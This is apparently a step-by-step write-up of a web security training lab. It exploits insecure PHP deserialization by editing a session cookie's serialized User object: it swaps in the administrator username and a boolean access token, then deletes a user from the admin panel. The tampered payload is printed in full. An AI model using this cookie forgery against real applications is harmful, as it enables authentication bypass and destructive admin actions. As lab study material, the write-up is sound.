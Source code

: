 # Modifying serialized data types

## This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result. To solve the lab, edit the serialized object in the session cookie to access the `administrator` account. Then, delete Carlos.

## You can log in to your own account using the following credentials: `wiener:peter`

---

### step 1

login
then /my-account page sent to repeater

![screenshot](images/lab2_account_page_in_repeater.jpg)

### step2

```json
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"bdrsqrhm9pmae2nve9sezu0h4ub9g6bn";}
```

```json
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";b:1;}
```

![screenshot](images/lab2_decode_encode_token.jpg)

### step3

use encoded session id

![screenshot](images/lab2_admin_panel_session_id.jpg)

use this session id to delete carlos account and solved the lab
